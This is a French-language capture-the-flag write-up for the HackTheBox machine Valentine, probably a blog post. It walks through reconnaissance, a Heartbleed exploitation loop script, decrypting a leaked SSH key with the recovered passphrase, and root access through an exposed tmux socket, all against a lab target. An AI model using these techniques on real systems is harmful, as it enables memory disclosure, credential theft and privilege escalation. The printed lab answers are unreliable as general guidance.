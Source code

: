 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false

tags: ["HTB", "CTF", "Heartbleed", "Privilege Escalation", "Linux"]
categories: ["HackTheBox", "Easy"]
---
```


> Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

<figure>
  <img src="image.jpg" alt="Capture d’écran de la machine Valentine">
  <figcaption>Capture d’écran de la machine Valentine au moment de l’exploitation</figcaption>
</figure>
<br>

![](difficulty.jpg)

<br>


## 🧭 Reconnaissance

Scan initial :

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

## 🔎 Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## 💉 Exploitation — Heartbleed (CVE-2014-0160)

Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

### 🔧 Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### 🐍 Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

## 🔓 Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🚀 Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### 🧠 Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### 🧪 Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

### ✅ Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

### 📝 Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## 🏁 Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## 📎 Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

## 🔚 Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

> 🎯 Entraîne-toi à automatiser ce type d’exploitation, et n’oublie jamais d’examiner les résultats de `linpeas` en détail !


